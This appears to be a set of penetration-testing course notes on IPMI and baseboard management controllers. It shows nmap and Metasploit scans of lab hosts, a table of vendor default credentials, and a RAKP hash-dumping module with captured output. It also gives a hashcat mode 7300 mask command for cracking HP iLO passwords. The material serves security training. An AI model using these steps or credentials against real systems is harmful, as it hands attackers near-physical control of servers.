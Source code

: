 ### IPMI
* [Intelligent Platform Management Interface](https://www.thomas-krenn.com/en/wiki/IPMI_Basics) (`IPMI`)
* Used for system management and monitoring even if they are powered off or unresponsive
	* Monitors system temperature, voltage, fan status, and power supplies
* Acts as an autonomous subsystem and work independently of the host's BIOS, CPU, firmware, and underlying operating system
* Operates via direct network connection to systems hardware
* Does not require access to OS via login shell
* Can also be used for remote upgrades to systems without requiring physical access to the target host
* Typically used in three ways
	-   Before the OS has booted to modify BIOS settings
	-   When the host is fully powered down
	-   Access to a host after a system failure
- Can also be used for querying inventory information, reviewing hardware logs, and alerting using SNMP

### Footprinting the Service
* IPMI communicates over UDP port `623`
* Systems that use IPMI are called Baseboard Management Controllers (`BMCs`)
	* Typically implemented as embedded ARM systems running Linux
	* Connect directly to host's motherboard
* Most often use BMCs are HP iLO, Dell DRAC, and Supermicro IPMI
* If we would be able to access BMCs
	* We gain full access to the host motherboard 
	* Able to monitor, reboot, power off, or reinstall host OS
	* Nearly equivalent to gaining physical access
* Many BMCs expose a web-based management console
	* Like Telnet or SSH

```sh
$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
Host is up (0.00064s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth:
|   PassAuth: auth_user, non_null_user
|_  Level: 2.0
MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)
```

```sh
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

* Administrators often use default passwords
* Some unique default passwords to keep in our cheatsheets include

| Product         | Username      | Password                                                                  |
| --------------- | ------------- | ------------------------------------------------------------------------- |
| Dell iDRAC      | root          | calvin                                                                    |
| HP iLO          | Administrator | randomized 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI | ADMIN         | ADMIN                                                                          |

### Dangerous Settings
* If default passwords do not work, we can turn to a [flaw](http://fish2.com/ipmi/remote-pw-cracking.html) in the RAKP protocol in IPMI 2.0
* During the authentication process, the server sends a salted SHA1 or MD5 hash of the user's password to the client before authentication takes place
	* Can be leveraged to obtain the password hash for ANY valid user account on the BMC
	* Hashes can then be crack offline via `Hashcat` mode `7300`
*  In the event of an HP iLO using a factory default password
	* Use this Hashcat mash attack command which tries all combinations of upper case letters and numbers for an eight char password
	* `hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u`

```sh
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```